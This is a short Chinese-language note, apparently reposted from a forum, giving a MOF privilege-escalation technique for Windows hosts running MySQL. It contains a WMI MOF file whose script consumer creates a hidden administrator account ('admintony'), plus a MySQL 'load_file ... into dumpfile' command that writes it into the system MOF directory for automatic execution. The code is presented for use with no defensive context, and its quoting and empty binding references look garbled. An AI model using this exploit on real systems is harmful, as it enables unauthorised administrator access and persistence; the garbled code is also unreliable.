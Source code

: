 # MOF手工提权辅助

> 原文：[https://www.zhihuifly.com/t/topic/3528](https://www.zhihuifly.com/t/topic/3528)

# MOF 提权：

```
#pragma namespace("\\.\root\subscription") 

instance of __EventFilter as

{

EventNamespace = “Root\Cimv2”;

Name  = “filtP2”;

Query = "Select * From __InstanceModificationEvent "

"Where TargetInstance Isa “Win32_LocalTime” "

“And TargetInstance.Second = 5”;

QueryLanguage = “WQL”;

};

instance of ActiveScriptEventConsumer as

{

Name = “consPCSV2”;

ScriptingEngine = “JScript”;

ScriptText =

“var WSH = new ActiveXObject(“WScript.Shell”) WSH.run(“net.exe user admintony admin /add&&net.exe localgroup administrators admintony /add”)”;

}; `instance of __FilterToConsumerBinding

{

Consumer   = ;

Filter = ;

};` 
```

保存为 1.mof

然后mysql执行

```
select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'; 
```
